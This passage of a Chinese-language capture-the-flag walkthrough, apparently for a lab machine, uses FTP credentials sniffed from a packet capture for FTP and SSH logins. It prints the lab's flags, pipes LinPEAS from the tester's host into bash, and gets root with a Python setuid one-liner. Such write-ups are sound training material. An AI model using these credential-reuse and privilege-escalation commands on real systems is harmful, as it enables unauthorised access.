 10.	打開封包檔，點選任意一個封包，然後 Follow TCP Stream
 

11.	在檢視TCP封包訊息，可以查到下面幾個資訊

-	FTP伺服器：vsFTPd 3.0.3
-	使用者帳號： nathan
-	密碼：Buck3tH4TF0RM3!

 <img width="255" height="238" alt="image" src="https://github.com/user-attachments/assets/663b578a-c8f5-4b4e-8216-1295225e0a5d" />

12.	因為一般使用者可能會在不同的系統使用相同的帳號及密碼。現在使用這個帳號及密碼登入FTP。並且可以檢視到FTP目錄中有user.txt。

 <img width="563" height="197" alt="image" src="https://github.com/user-attachments/assets/2c636057-112f-4a53-bea2-085ef7de2070" />

13.	下載user.txt後，可以在文件中看到第一個Flag的內容。
f87feef8da86aa4f8885a56c6d04d0bd
 
<img width="285" height="63" alt="image" src="https://github.com/user-attachments/assets/57017ccc-3e18-4e2c-99ee-4c905646d7a5" />

14.	利用步驟11所獲得的帳號及密碼登入到SSH服務

 <img width="531" height="186" alt="image" src="https://github.com/user-attachments/assets/7a00dc24-c322-40cf-9ff5-3a39500e9b3b" />

15.	確認登入的帳號名稱及權限。
 
<img width="467" height="161" alt="image" src="https://github.com/user-attachments/assets/d5e1d59a-312f-4c02-9038-5f9cb599b330" />

16.	下載 LinPEAS Script
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240804-31b931f7/linpeas.sh
 
<img width="673" height="253" alt="image" src="https://github.com/user-attachments/assets/a015b63e-7e40-4e30-a9ee-4b9953c3a467" />

17.	啟動Python HTTP Server
 
<img width="485" height="62" alt="image" src="https://github.com/user-attachments/assets/feefeb66-e90e-4246-b17f-62d6ad084656" />

18.	透過Python HTTP Server，啟用LinPEAS Script，並將檢查結果存放到check.txt，以便以後檢視可能的漏洞資訊。
curl http://10.10.14.29/linpeas.sh | bash > check.txt

 <img width="637" height="93" alt="image" src="https://github.com/user-attachments/assets/84c35daa-e3f5-4823-a3a5-a5ab9a4aef89" />

19.	下載並執行linpeas.sh，可以看到LinPEAS.sh列出可用的漏洞。

 

21.	直接執行 Python 指令就可以提升權限，提升權限後，印出root.txt。
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami

12bfd933b27aadc7948d94fc6ab2d1ac

 
